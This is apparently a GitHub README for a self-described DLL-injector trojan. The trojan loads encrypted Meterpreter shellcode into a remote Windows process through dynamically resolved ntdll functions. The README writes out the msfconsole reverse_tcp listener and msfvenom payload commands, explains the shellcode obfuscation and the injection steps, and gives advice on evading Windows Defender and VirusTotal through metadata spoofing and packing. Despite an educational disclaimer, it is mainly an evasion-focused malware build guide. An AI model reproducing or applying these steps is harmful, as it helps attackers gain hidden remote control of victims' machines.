



# Native API Dll injector Trojan

Dll injector in a remote process using dynamically resolved Native Api functions and encrypted shellcode, undetected by Windows Defender.
This code is for educational purposes only, do not use it for any malicious or unauthorized activity.


# 💻 Code
Similarly to [this malware](https://github.com/Hue-Jhan/Ntdll-Process-inj-Trojan) i made, this one calls dynamically resolved functions from ntdll.dll, reducing static IAT footprint, it basically retrieves addresses of native api functions at runtime and calls them via a pre-made function pointer to inject a malicious dynamic link library in a target process, the library will upload shellcode into that process.

### 1) Listener and encrypted payload

- First i used the classic multi handler exploit to run the payload: 
``` msfconsole -q -x "use exploit/multi/handler; set payload windows/meterpreter/reverse_tcp; set lhost XXX; set lport XXX; exploit" ```

- The payload is a simple base64 shellcode, it's reccomended to use shigata_ga_nai alternatives since its detected way more than the raw shellcode for some reason:
``` msfvenom -p windows/meterpreter/reverse_tcp LHOST=XXX LPORT=XXXX  -e x86/shikata_ga_nai -f c  ```. 

- Once we have the shellcode we load it into the ```encrypter.c```  file, where the binary data is converted into Base64, use a custom base64_chars set instead of the standard alphabet to obfuscate more, secondly XOR encryption is applied (single-byte key), and finally we convert it into a hexadecimal string. You can find the encrypting code [here](https://github.com/Hue-Jhan/Simple-shellcode-crypter) or you can use your own encryption, but remember not to use rsa or aes or similar encoding algorithms as they are "too perfect" and raise the entropy levels too much.

### 2.1) DLL:

We get a handle to ntdll and we dynamically resolve its functions both in the DLL and in the injector, unlike ```kernel32.dll``` APIs like VirtualAllocEx, ```ntdll``` functions are sometimes less likely to be hooked by EDRs at user level.

- In order to use Ntdll we create custom typedef structs for each function, and we define all the internal structures and objects that they need, sometimes structures may be nested and require even more internal objects;
- Then we use ```GetNtFunctionAddress``` function to dynamically retrieve addresses of NT functions from ntdll using ```GetProcAddress```;
- When the library is attached to the process, it decodes the obfuscated shellcode and using the native api functions it uploads it into memory;
- Then it creates a thread into the same process its being injected into and the previously uploaded shellcode will be executed.

### 2.2) Injector:

The injector loads the dynamic library onto disk, looks for a specific process and injects the library into it:

- First of all we put the malicious dll in the same folder as the injector, we create a resource file and its header and we set the dll as a resource of the injector;
- Secondly on the injector we locate the resource file, calculate its size, upload it to memory, and lock it for access so it can be used without being moved;
- Thirdly we extract the dll from the executable and write it to disk;
- We find a process by PID iterating through a pre-made linked list of ```SYSTEM_PROCESS_INFORMATION``` structs representing all running processes;
- We allocate memory the size of the dll path inside of it and write the path into the process;
- Then we get the handle to kernel32.dll and ntdll.dll and dynamically resolve the address of LoadLibraryA;
- Finally we create a thread that executes the function that loads the malicious dll;
- The Dll decodes the data and uploads it to memory, creating the shell;

Extracting the dll and uploading to disk is risky, in the future i will upload it directly to memory.

# 🛡 AV Detection

The raw Dll gets like 5 detections,   if i upload the metadata and resources of another library such as ntdll itself, the detections drop to 1.

The raw exe file is currently undetected by windows defender but gets blocked by Bitdefender (even the free trial, yes bitdefender is the best av in my opinion, only behind crowdstrike). 



On virus total it gets 11 detections and as usual it doesn't show bitdefender flagging it.

If i obfuscate the file even more with Resource Hacker by inserting the metadata of another well known software like shotcut, the detections drop to 8/9 on virus total. 

You can obfuscate it even more using tools like soggoth, or by turning it into an msi or iso file. 
